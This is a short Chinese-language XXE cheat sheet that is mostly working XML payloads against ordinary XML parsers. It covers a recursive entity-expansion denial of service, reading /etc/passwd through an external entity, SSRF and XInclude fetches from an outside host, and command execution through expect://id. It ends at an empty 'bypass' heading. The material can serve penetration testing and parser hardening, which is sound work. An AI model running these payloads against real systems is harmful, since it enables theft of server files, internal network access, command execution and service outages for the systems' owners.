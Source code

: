 ### 拒绝服务攻击

    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY a0 "dos" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
    ]>
    <data>&a2;</data>

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。
具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。


### 文件读取

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <data>&file;</data>

### SSRF

    <?xml version="1.0"?>
    <!DOCTYPE data SYSTEM "http://publicServer.com/" [
    <!ELEMENT data (#ANY)>
    ]>
    <data>4</data>

### RCE

    <?xml version="1.0"?>
    <!DOCTYPE GVI [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://id" >]>
    <catalog>
       <core id="test101">
          <description>&xxe;</description>
       </core>
    </catalog>

### XInclude

    <?xml version='1.0'?>
    <data xmlns:xi="http://www.w3.org/2001/XInclude">
        <xi:include href="http://publicServer.com/file.xml">
        </xi:include>
    </data>


## 绕过
